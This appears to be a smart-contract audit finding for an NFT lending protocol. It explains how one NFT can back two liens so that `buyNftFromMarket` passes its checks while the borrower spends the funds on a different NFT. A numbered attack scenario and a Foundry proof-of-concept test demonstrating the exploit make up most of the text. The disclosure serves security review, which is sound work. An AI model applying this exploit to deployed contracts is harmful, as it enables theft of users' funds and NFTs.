 Since the current protocol does not limit an NFT to only one lien, the `_execBuyNftFromMarket()` does not actually buy NFT; the funds are used to buy other NFTs, but still meet the verification conditions.

Example.

1.  Alice transfers NFT_A to supply Lien\[1].
2.  Bob performs `sellNftToMarket(1)` and NFT_A is bought by Jack.
3.  Jack transfer NFT_A and supply Lien\[2] (after this NFT_A exists in the contract).
4.  Bob executes `buyNftFromMarket(1)` and spends the same amount corresponding to the purchase of other NFT such as: `tradeData = { buy NFT_K }`.
5.  Step 4 can be passed `IERC721(collection).ownerOf(tokenId) ! = address(this) || balanceBefore - address(this).balance ! = amount` and Bob gets an additional NFT_K.

Test code:

```solidity
    function testOneNftTwoLien() external {
        //0.lender supply lien[0]
        _approveAndSupply(lender,_tokenId);
        //1.borrower sell to market
        _rawSellToMarketplace(borrower, address(dummyMarketplace), 0, _sellAmount);
        //2.jack buy nft
        address jack = address(0x100);
        vm.startPrank(jack);
        dummyMarketplace.buyFromMarket(jack,address(dummyNFTs),_tokenId);
        vm.stopPrank();
        //3.jack  supply lien[1]
        _approveAndSupply(jack, _tokenId);        
        //4.borrower buyNftFromMarket , don't need buy dummyNFTs ,  buy other nft
        OtherDummyERC721 otherDummyERC721 = new OtherDummyERC721("otherNft","otherNft");
        otherDummyERC721.mint(address(dummyMarketplace),1);
        console.log("before borrower balance:",borrower.balance /  1 ether);
        console.log("before otherDummyERC721's owner is borrower :",otherDummyERC721.ownerOf(1)==borrower);
        bytes memory tradeData = abi.encodeWithSignature(
            "buyFromMarket(address,address,uint256)",
            borrower,
            address(otherDummyERC721),//<--------buy other nft
            1
        );
        vm.startPrank(borrower);
        particleExchange.buyNftFromMarket(
            _activeLien, 0, _tokenId, _sellAmount, 0, address(dummyMarketplace), tradeData);
        vm.stopPrank();
        //5.show borrower get 10 ether back , and get  other nft
        console.log("after borrower balance:",borrower.balance /  1 ether);
        console.log("after otherDummyERC721's owner is borrower :",otherDummyERC721.ownerOf(1)==borrower);

    }



contract OtherDummyERC721 is ERC721 {
    // solhint-disable-next-line no-empty-blocks
    constructor(string memory name, string memory symbol) ERC721(name, symbol) {}

    function mint(address to, uint256 tokenId) external {
        _safeMint(to, tokenId);
    }
}

```
